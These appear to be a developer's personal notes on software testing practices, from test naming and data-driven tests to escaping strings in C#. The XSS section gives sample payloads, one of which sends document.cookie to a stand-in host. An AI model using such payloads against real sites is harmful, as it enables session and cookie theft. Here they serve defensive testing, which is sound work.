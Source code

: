 # Writing Test Script
- API test do not contains business logic, only CRUD
- Integration test is testing business logic with database
- Unit test is testing business logic without database
- **Handle exception**
	- [[#Test script for catching ExpectedException]]
	- Precise assert message: [[Code Review handbook#Straight Forward Error Message]]
- **Naming** convension
	- `Action_Scenario_Result`
	- `Copy_DossierHasAFolderWithSameDocumentType_SkipCopyFolder`

# Integration Test
## Write data-driven test
- **Avoid duplication** of test scripts, reuse function by passing different parameters
- **Improve maintenance**, clean code, easy to read
- **Comprehensive testing**, ensure all possible input combination are tested.

**Pseudocode for data-driven test**
```text
for each (username, password) in testData:
    openLoginPage()
    enterUsername(username)
    enterPassword(password)
    clickLoginButton()
    verifyLoginResult()
```

**3 ways to do in C# or .Net Framework**
- [[DataRow]] 
- `DynamicData`
- `XMLDataSource`

---
# Regression Test
- Check history
	- if failed before, find the PR causing this
- Reproduce in local
	- if success, test ok
	- if failed, test need to be fixed, take out from RRT first.
# Manual Testing
- Form
	- [[#Special Characters in Text Input]]
	- [[#Cross-Site Scripting (XSS)]]
	- [[#Delete with similar properties]]
- Design scenarios
	- [[#Validate core business logic]]
	- Delete & create the same again. This make sure "delete" action is doing well

**Testing in exactonline**
- 

---
# UI Test
## Wait for page
- Static: fix 10 seconds
- Dynamic: up to 10 seconds, if element not found, throw an exception
```cs
// Static
Page.Wait("Page", 10)
// Dynamic
Validator.WaitForExistId("Page", "refreshBtn", 10)
```


---
# Example
## Special Characters in Text Input (' " $ % @ ^ & :  / \ )

**What developer write**
```cs
private string GetPersonalNotePopupLink() {
	// vars & logic
	return $"CreatePopUpElementAndLink('{popUpWindowId}', '{title}', '{url}')";
}
```
**What HTML rendered**
```html
<a onlick="CreatePopUpElementAndLink('id', 'Sam's Title', 'http://localhost')" />
```

==Solution== **Escape the value in C#**
```cs
```csharp
using System.Web;

string title = "Sam's Title";
string escapedValue = HttpUtility.JavaScriptStringEncode(title);
```

---
##  Cross-Site Scripting (XSS)
### Stored XSS
Tester write a profile description with malicious script:
```
http:localhost?name=<script>alert('XXS attack!⚔️');</script>
```

```
<script>new Image().src="http://localhost/cookie.html?c="+document.cookie;</script>"
```

- When other people open his profile, they will see the alert.
- ==Solution== Input validation, output encoding, HTML sanitization. 
	- Modern framework will handle behind the scene. 

### DOM-based XSS
Include malicious script in request query: 
```
http:localhost?name=<script>alert('XXS attack!⚔️');</script>
```

---

## Delete with similar properties
**Example scenario: Deleted item still have duplicate ID**
- I have a feature that sync across my app and customer's SharePoint
- I create a document and it has synced
- Then, delete the document , also synced
- Then, create again. Bomb💣, an error state "Cannot store more than one attachment in a document ID"

**Another example: Forget to unlink foreign key**
- I have two customer, they have relationship called: "Involved user"
- They are link together, but I am going to delete one of it
- If database keep the relationship, you hit SQL error when you delete the 2nd customer.

---

## Validate core business logic
**Example: "Copy template" function is broken when "Sync" function involved**
- "Copy template" has protected by unit test
- But its functionality still get impacted
	- Business logic: Copy folder to all dossiers in same folder structure
	- New feature come to impact: Sync dossier to SharePoint
	- How is the impact: the feature changes to folder structure, so cannot copy correctly

---

## Test script for catching ExpectedException
Test to catch exception, no need assert. 
```cs
[TestMethod, ExpectedException(typeof(ERValidationException))]
// function { Arrange, Act } 
// no need Assert
```

---





